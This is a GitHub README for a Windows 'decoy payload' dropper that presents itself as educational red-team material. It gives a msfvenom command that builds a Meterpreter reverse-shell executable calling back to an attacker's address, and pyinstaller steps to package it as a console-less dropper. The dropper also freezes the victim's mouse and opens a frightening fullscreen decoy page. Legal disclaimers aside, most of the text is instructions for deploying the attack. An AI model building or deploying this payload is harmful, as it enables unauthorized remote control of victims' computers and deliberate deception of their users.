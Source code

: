 # windows-html-decoy-payload
meterpreter payload with HTML decoy site, more advanced

Windows HTML Decoy + Payload Dropper

This educational repo demonstrates a Windows payload launcher that:
- Executes a Meterpreter reverse shell
- Freezes the user's mouse for 10 seconds
- Opens a **glitchy, red, fullscreen HTML decoy** with dramatic imagery

For security researchers and red team simulation **only**. 
Using this tool outside of a controlled virtual environment
without legal consent is **ILLEGAL**

---

 Setup & Usage

1. Generate the Reverse Shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe -o shell.exe
```

2. Place `shell.exe` in the `builder/` folder.

3. Build the Dropper (Python Required)

```bash
pip install pyinstaller
cd builder
pyinstaller --noconsole --onefile dropper.py
```

---

Legal

Do **NOT** use this on systems you don't own or without explicit permission.

---

Credits

- Payload launcher logic by Talyx66
- HTML glitch effects custom-crafted
- Image sources used in decoy for visual panic simulation
